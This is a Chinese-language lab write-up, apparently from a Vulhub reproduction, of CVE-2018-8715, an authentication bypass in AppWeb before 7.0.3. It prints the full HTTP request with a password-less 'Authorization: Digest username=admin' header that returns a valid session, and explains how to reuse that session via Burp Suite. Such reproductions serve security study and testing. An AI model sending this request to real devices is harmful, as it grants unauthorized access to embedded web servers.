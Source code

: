 # AppWeb认证绕过漏洞 CVE-2018-8715

## 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

其7.0.3之前的版本中，对于digest和form两种认证方式，如果用户传入的密码为`null`（也就是没有传递密码参数），appweb将因为一个逻辑错误导致直接认证成功，并返回session。

参考链接：

- https://ssd-disclosure.com/index.php/archives/3676

## 环境搭建

Vulhub执行如下命令启动一个带有digest认证的Appweb 7.0.1服务器：

```
docker-compose up -d
```

访问`http://your-ip:8080`，需要输入账号密码。

## 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: 192.168.174.128:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Authorization: Digest username=admin
```

可见，因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

![image-20220221164849686](images/202202211648848.png)

在Burpsuite→Options→Match and Replace中设置规则，这样在每次发送数据包时将自动在Headers中加入Cookie，添加session到浏览器：

![image-20220221170835479](images/202202211708588.png)

即可正常访问需要认证的页面：

![image-20220221171619437](images/202202211716649.png)

